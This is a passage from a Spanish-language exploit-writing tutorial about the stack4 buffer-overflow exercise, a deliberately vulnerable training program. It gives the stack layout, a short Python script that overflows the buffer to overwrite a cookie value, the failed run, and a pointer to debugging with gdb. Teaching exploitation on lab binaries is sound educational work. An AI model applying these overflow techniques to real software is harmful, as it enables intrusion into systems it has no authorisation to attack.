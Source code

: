 ![](<../../.gitbook/assets/imagen (97).png>)

Información útil del mapa de la pila:

```c
[ebp-0x54]  = buf
[ebp-0x4]   = cookie
[ebp]       = ebp anterior guardado
[ebp+0x4]   = dirección de retorno
```

#### Solución anterior: modificar valor de cookie <a href="#solucion-anterior-modificar-valor-de-cookie" id="solucion-anterior-modificar-valor-de-cookie"></a>

Probamos con la misma estrategia que en los problemas anteriores, modificando el valor de `cookie` para que el condicional se evalúe como verdadero.

```
#exploit.py

#!/usr/bin/python
output = "A" * 80 + "\x00\x0a\x0d\x00"
print output
```

Pero observamos que el mensaje ganador no se imprime:

```
user@abos:~$ python exploit.py |./stack4        
buf: bffff5b4 cookie: bffff604
user@abos:~$
```

Si debugeamos el programa vulnerable con [`gdb`](https://fundacion-sadosky.github.io/guia-escritura-exploits/herramientas.html#debugger-gdb) podemos observar porqué.
